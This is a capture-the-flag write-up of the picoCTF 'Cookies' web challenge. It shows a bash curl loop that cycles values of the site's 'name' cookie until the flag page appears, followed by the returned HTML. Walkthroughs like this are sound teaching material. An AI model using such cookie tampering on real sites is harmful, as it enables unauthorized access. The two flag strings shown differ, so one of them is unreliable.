


# Cookies — Pico Gym

> **Room / Challenge:** Cookies (Web)

---

## Metadata

- **Author:** `jameskaois`
- **CTF:** Pico Gym
- **Challenge:** Cookies (web)
- **Link**: `https://play.picoctf.org/practice/challenge/173`
- **Difficulty:** `Easy`
- **Date:** `07-11-2025`

---

## Goal

Leveraging cookies functionality to get the flag.

## My Solution

This is the home page of the website:



Tried `snickerdoodle` for the payload of the search functionality, got success message



Check the cookies the name is `0`:


Tried change the name to `1` got `chocolate chip cookies` and then till `18` we can got the flag, I create this automated bash script:

```bash
for i in `seq 0 20`;
do
    echo -n $i
    curl http://mercury.picoctf.net:29649/check -b "name=$i"
done
```

The result of cookie `name=18`:

```html
<body>
  <div class="container">
    <div class="header">
      <nav>
        <ul class="nav nav-pills pull-right">
          <li role="presentation">
            <a href="/reset" class="btn btn-link pull-right">Home</a>
          </li>
        </ul>
      </nav>
      <h3 class="text-muted">Cookies</h3>
    </div>

    <div class="jumbotron">
      <p class="lead"></p>
      <p style="text-align:center; font-size:30px;">
        <b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_a1f5bdb7}</code>
      </p>
    </div>

    <footer class="footer">
      <p>&copy; PicoCTF</p>
    </footer>
  </div>
</body>
```

Flag: `picoCTF{3v3ry1_l0v3s_c00k135_bb3b3535}`
